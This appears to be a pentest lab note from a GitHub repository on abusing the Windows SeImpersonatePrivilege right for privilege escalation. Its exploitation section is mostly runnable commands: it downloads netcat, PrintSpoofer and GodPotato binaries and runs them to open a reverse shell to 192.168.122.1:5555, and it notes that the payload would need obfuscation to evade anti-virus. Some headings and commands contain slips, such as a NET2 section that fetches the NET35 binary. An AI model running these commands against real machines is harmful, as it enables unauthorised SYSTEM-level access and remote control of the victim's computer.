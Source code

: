 ## Windows Setup

Assign the **SeImpersonatePrivilege** to the new user:

1. Go to "Edit Group Policy"
2. Computer Configuration
3. Windows Settings
4. Security Settings
5. Local Policies
6. User Rights Assignment
7. Impersonate a client after authentication
8. Right click on "Properties"
9. Add user or group

## SeImpersonatePrivilege

When you assign the "Impersonate a client after authentication" user right to a user, you permit programs that run on behalf of that user to impersonate a client.

An attacker with SeImpersonatePrivilege could create a service, mislead a client into connecting to the service, and then impersonate that computer to elevate the attacker's level of access to that of the device.

## Exploitation

Check you have the privilege@
```powershell
whaomi /priv
```

You're looking for the **SeImpersonatePrivilege** state to be **Enabled**

Various exploits can be used
- PrintSpoofer
- GodPotato

In all cases, we first have to start up a local listener:
```sh
nc -lvnp 5555
```

Download ncat on the remote machine:
```powershell
iwr -uri "https://raw.githubusercontent.com/int0x33/nc.exe/master/nc64.exe" -Outfile nc64.exe
```

---

**PrintSpoofer**

Download exploit on Windows:

Find which version you are running
```powershell
systeminfo
```
- Under system type you can find out what version the machine is

**32 bit** - **x86**
**64 bit** - **x64**

32 bit
```powershell
iwr -uri "https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer32.exe" -Outfile PrintSpoofer32.exe
```

64 bit
```powershell
iwr -uri "https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe" -Outfile PrintSpoofer64.exe
```

Execute exploit:
```powershell
PrintSpoofer64.exe -c "C:\Users\leonardo\Desktop\nc64.exe 192.168.122.1 5555 -e cmd"
```
- Add the correct file path to wherever you downloaded ncat `C:\<file-path>\nc64.exe`

Sometimes the exploit does not work, which is why there is more than one example.

---

**GodPotato-NET2**

Understand the version of `.NET` with the following command and use the relative exploit:
```powershell
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
```

Download exploit on Windows:
```powershell
iwr -uri "https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET35.exe" -Outfile GodPotato-NET35.exe
```

Execute exploit:
```powershell
.\GodPotato-NET35.exe -cmd "C:\Users\leonardo\Desktop\nc64.exe 192.168.122.1 5555 -e cmd"
```

**GodPotato-NET35**

Download exploit on Windows:
```powershell
iwr -uri "https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET35.exe" -Outfile GodPotato-NET35.exe
```

Execute exploit:
```powershell
.\GodPotato-NET35.exe -cmd "C:\Users\leonardo\Desktop\nc64.exe 192.168.122.1 5555 -e cmd"
```

**GodPotato-NET4**

Download exploit on Windows:
```powershell
iwr -uri "https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe" -Outfile GodPotato-NET4.exe
```

Execute exploit:
```powershell
.\GodPotato-NET4.exe -cmd "C:\Users\leonardo\Desktop\nc64.exe 192.168.122.1 5555 -e cmd"
```

In a real world test, this file would need to be obfuscated to bypass anti-virus security. 

---
## References 

on SeImpersonatePrivileg
- https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege
- https://juggernaut-sec.com/seimpersonateprivilege/
- https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/

PrintSpoofer exploit
- https://github.com/itm4n/PrintSpoofer
- https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe

GodPotato exploit
- https://github.com/BeichenDream/GodPotato




